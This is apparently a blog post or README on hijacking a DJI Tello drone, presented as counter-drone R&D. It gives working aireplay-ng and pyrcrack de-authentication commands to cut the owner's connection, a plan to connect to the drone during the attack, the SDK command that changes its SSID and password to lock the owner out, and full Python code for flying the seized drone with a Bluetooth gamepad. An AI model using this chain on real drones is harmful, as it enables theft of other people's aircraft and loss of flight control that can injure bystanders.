

# A way to hack Dji Tello

I got an R&D job a few weeks ago that required me to hack multiple drones, also known as *Counter-Unmanned Aircraft Swarm System*.
This is a complicated and vast subject; I'm in charge of confrontation and simulation work, but this is my first foray into the field, so first and foremost, I need to understand how to hack a single simple drone.

## System design

Using a **DJI Tello** drone play victim role, a **Rock Pi** as attacker program carrier, and a **GameSir T1d** as attacker controller.



Two Wi-Fi cards are also required, one of which must be in monitor mode.

> I  chose the RK3399 chip as the card, but the RockPi pre-built Ubuntu Focal **didn't enable** this driver by default; make sure you choose a usable driver will make your life easier.

I use front-end and back-end separated web service architecture as CUAS, meanwhile I use RockPi board as a web server, follow the [document](https://wiki.radxa.com/Rock4/getting_started) write **Ubuntu 20.04 Server** image to it.

After that, install the necessary software `kismet`, `python3.8` and `aircrack-ng`.

### Take a try first

```shell
sudo airmon-ng start <wlan_card> # Enable monitor.

# Browser `localhost:2501` to use kismet web UI,
# you can find drone's MAC address easily.
kismet -c <wlan_card_mon>

# Connect to your drone from phone app, and de-authentication yourself
sudo aireplay -D -deauth 10 -a <drone_macaddr> <another_wlan_card>
```

During a de-auth attack, the connection becomes extremely unstable, even disconnecting.
It's work, huh, but you'll notice your phone is still trying to reconnect, sometimes successfully.

This is a sign to the hacker: the owner can get his drone back, and you don't want this happen.

We need to clean what we exact need.

### Sort out the needs

In theory, the hacking flow should be like this:

1. de-auth attack to break connection from owner and drone.
2. Hacker try connect drone during attack.
3. Once connected, change drone's SSID to avoid owner connect back, also a password is necessary.
4. Hacker can use a controller to control drone.

## Development

### Monitor

Locate to **kismet** web ui > setting > api > api token, create a token that you can use kismet as a web server, there is a API allow you have devices data with closable fields: `/devices/views/phydot11_accesspoints/devices.json`

```typescript
// TypeScript
declare namespace API {
    interface Drone_Data {
        [x: string]: any;
        data?: [];
    }
}

export async function getDroneInfo() {
    return request<API.Drone_Data>(
        "/devices/views/phydot11_accesspoints/devices.json",
        {
            method: "POST",
            params: { KISMET: "a_kismet_api_token" },
            data: {
                fields: [
                    "kismet.device.base.macaddr",
                    "uav.device",
                    "kismet.device.base.commonname",
                    "kismet.device.base.channel",
                ],
            },
            ...(Option || []),
        },
    );
}
```

### Attacker

**pyrcrack** have a simple command to achieve de-auth attack:

```python
# Python
import asyncio

from pyrcrack import AireplayNg


async def deauth(interface, macaddr):
    async with AireplayNg() as aireplay:
        async for res in aireplay(interface, deauth=10, D=True, a=macaddr):
            await asyncio.sleep(1)

# Usage:
# asyncio.run(deauth('wlan_card_mon','kismet.device.base.macaddr'))
```

### Controller

Because the GameSir T1d cannot connect to the drone directly when hacked, I decided to use **TelloPy** as controller middleware to convert the T1d signal into a drone control command.

T1d uses Bluetooth protocol to transmit data; there are three Services, with the third receiving an unchanged byte stream and the second changing at random.
The byte stream received by a Service whose UUID begins with `00008651` changes on a regular basis.

When T1d on idle, the value received by the first Service is always been `C9-C6-86-A1-00-DB-B9-03-01-01-01-0B-01-E1-07-07-06-10-1E-56`.

The first two Bytes are always `A1-C5` when there is action.

As a result, the first two bytes can be used to determine the state of the remote control.

> Notice: Rock Pi is Big-Endian, you will need change the hex value `A1-C5` to `C5-A1`.

The last byte is always self-incrementing when T1d status on `C5-A1`.

When you press the button, the byte will increase by 2 until `0xFF`, then return to `0x00`. This is used to keep track of how many times the button is pressed.

Bytes 10-13 represent the state of the pressed button, and each button on the handle corresponds to one bit. In fact, as long as these bytes are read out one by one, they can correspond to the keys.

For stickers, bytes 3-7 represent the joystick's state. It took some time to figure out which joystick corresponded to which bytes at first. Later, I discovered that it was actually quite simple to guess. A total of 5 bytes, 2 joysticks in a total of 4 directions, resulting in 10bit per direction.

In general, 10bit AD is also quite common.

```txt
11 bits (-1024 ~ +1023) x 4 axis = 44 bits
fast_mode takes 1 bit
44 bits will be packed in to 6 bytes (48 bits)
            axis4      axis3      axis2      axis1
     |          |          |          |          |
         4         3         2         1         0
98765432109876543210987654321098765432109876543210
 |       |       |       |       |       |       |
     byte5   byte4   byte3   byte2   byte1   byte0
```

So long as these bytes are read out and then rounded up every 10 bits into an integer, the joystick can be read again.

A example code for displaying the T1d signal value is as follows:

```python
# Python
import time
import struct
from bluepy.btle import Peripheral

my_gamesir = Peripheral('t1d_macaddr', 'random')
services = my_gamesir.getServices()  # get bluetooth service from device

for service in services:
    services_to_list = list(services)  # convert dict to list
    control_service = services_to_list[2]  # get elements on index 2
    charac_dics = control_service.getCharacteristics()  # get bluetooth characteristics
    for charac in charac_dics:
        print(charac.uuid)
        pass
    while True:
        time.sleep(0.1)
        charac1, charac2, charac3 = [item.read() for item in charac_dics]
        status_code = struct.unpack('H', charac1[:2])[0]

        print(status_code)

        if status_code == 50593:
            # key value, each key on the joystick has a fixed value.
            on_press_key = struct.unpack('I', charac1[9:13])[0]

            bar_status = struct.unpack('5B', charac1[2:7])
            bar_status_bin = ''.join([bin(item).split('b')[1].rjust(
                8).replace(' ', '0') for item in bar_status])

            left_x = (bar_status_bin[0:10], 2)
            left_y = (bar_status_bin[10:20], 2)
            right_x = (bar_status_bin[20:30], 2)

            # convert to int will see the value is 0~1023,
            # on idle is 512 (0x200), push forward is 512~0, backward is 512~1023
            right_y = int(bar_status_bin[30:40], 2)

            print("status %s" % status_code, end='  ')
            print("on_press %s" % on_press_key, end='  ')
            print("left_x %s" % left_x, end='  ')
            print("right_x %s" % right_x, end='  ')
            print("left_y %s" % left_y, end='  ')
            print("right_y %s" % right_y, end='\r')
```

Mapping keys to the hex value:

```python
# Python
# Big endian
switch = {
    0x40: 'L1',
    0x80: 'R1',
    0x100: 'L2',
    0x200: 'R2',
    0x01: 'A',
    0x02: 'B',
    0x08: 'X',
    0x10: 'Y',
    0x4: 'Menu',
    0x400: 'C1',
    0x800: 'C2',
    0x10000: 'Up',
    0x30000: 'Right',
    0x50000: 'Down',
    0x70000: 'Left',
}
```

**TelloPy** gave a game controller stick mapper (function `__send_stick_command`) to control drone, so I motif it to adapt T1d:

```python
# Python
def _send_stick_command(drone, stick_values):
    pkt = Packet(STICK_CMD, 0x60)
    left_x, left_y, right_x, right_y = stick_values

    axis1 = (512 + left_x) & 0x7ff
    axis2 = (1536 - right_y) & 0x7ff
    axis3 = (1536 - left_y) & 0x7ff
    axis4 = (512 + right_x) & 0x7ff

    pkt.add_byte(((axis2 << 11 | axis1) >> 0) & 0xff)
    pkt.add_byte(((axis2 << 11 | axis1) >> 8) & 0xff)
    pkt.add_byte(((axis3 << 11 | axis2) >> 5) & 0xff)
    pkt.add_byte(((axis4 << 11 | axis3) >> 2) & 0xff)
    pkt.add_byte(((axis4 << 11 | axis3) >> 10) & 0xff)
    pkt.add_byte(((axis4 << 11 | axis3) >> 18) & 0xff)
    pkt.add_time()
    pkt.fixup()
    drone.send_packet(pkt)
```

Finally, we can connect to a drone and control ti with T1d:

```python
# Python
import struct
import sys

from tellopy import Tello
from tellopy._internal.protocol import Packet, STICK_CMD
from bluepy.btle import Peripheral

global_data = None


def _send_stick_command(drone, stick_values):
    pkt = Packet(STICK_CMD, 0x60)
    left_x, left_y, right_x, right_y = stick_values

    axis1 = (512 + left_x) & 0x7ff
    axis2 = (1536 - right_y) & 0x7ff
    axis3 = (1536 - left_y) & 0x7ff
    axis4 = (512 + right_x) & 0x7ff

    pkt.add_byte(((axis2 << 11 | axis1) >> 0) & 0xff)
    pkt.add_byte(((axis2 << 11 | axis1) >> 8) & 0xff)
    pkt.add_byte(((axis3 << 11 | axis2) >> 5) & 0xff)
    pkt.add_byte(((axis4 << 11 | axis3) >> 2) & 0xff)
    pkt.add_byte(((axis4 << 11 | axis3) >> 10) & 0xff)
    pkt.add_byte(((axis4 << 11 | axis3) >> 18) & 0xff)
    pkt.add_time()
    pkt.fixup()
    drone.send_packet(pkt)


def _get_stick_values(chars1):
    bar_status = struct.unpack('5B', chars1[2:7])
    bar_status_bin = ''.join([bin(item).split('b')[1].rjust(
        8).replace(' ', '0') for item in bar_status])

    left_x = int(bar_status_bin[0:10], 2)
    left_y = int(bar_status_bin[10:20], 2)
    right_x = int(bar_status_bin[20:30], 2)
    right_y = int(bar_status_bin[30:40], 2)

    return [left_x, left_y, right_x, right_y]


def dispatch(drone, chars1):
    global flight_data
    status_code = struct.unpack('H', chars1[:2])[0]

    if status_code == 0xC5A1:
        keys = struct.unpack('I', chars1[9:13])[0]
        if (keys == 0x110):
            drone.flip_forward()
        elif (keys == 0x210):
            if (flight_data and flight_data.height > 0.5):
                drone.land()
            else:
                drone.takeoff()
        elif (keys == 0):
            _send_stick_command(drone, _get_stick_values(chars1))


def handler(event, sender, data, **args):
    global flight_data
    if event is sender.EVENT_FLIGHT_DATA:
        flight_data = data


def _connect_drone(drone):
    try:
        drone.subscribe(drone.EVENT_FLIGHT_DATA, handler)
        drone.connect()
        drone.wait_for_connection(60.0)
    except Exception as ex:
        print("Unable to connect drones%s" % ex)


def main():
    drone = Tello()
    try:
        _connect_drone(drone)

        gamesir_t1d = Peripheral(<t1d_macaddr>, 'random')

        while True:
            chars_dics = list(gamesir_t1d.getServices())[
                2].getCharacteristics()

            chars1, _chars2, _chars3 = [item.read() for item in chars_dics]
            dispatch(drone, chars1)

    except KeyboardInterrupt:
        print("Existing...")
        drone.land()
        drone.quit()
        sys.exit()

if __name__ == '__main__':
    main()


# Usage:
# 1. Change <t1d_macaddr> to your GameSir T1d MAC address.
# 2. Connect to drone.
# 3. `python3 this.program.py`

```

There are still some '"TODO:"' items to complete, such as the rub connection and changing the SSID; I won't go into detail in this blog, but here are some points:

- Ubuntu controls Wi-Fi via NetworkManager, I use d-bus to control NetworkManager. Create a multithreaded process that sends connection requests erratically during a de-auth attack.

- The Tello SDK includes a Python example that demonstrates how to send a text command:'sock.sendto('wifi new ssid> pwd>', tello address)'.

> You must connect twice. The first time, use udp socket to send change SSID command and break, and the second time, use TelloPy to transmit controller signal.

## References & Spacial thanks

<https://github.com/NetworkManager/NetworkManager/blob/main/examples/python/dbus/add-wifi-psk-connection.py>

<https://github.com/Diallomm/hack_GamesirT1d>

<https://github.com/hanyazou/TelloPy>

<https://github.com/Matthias84/awesome-tello>
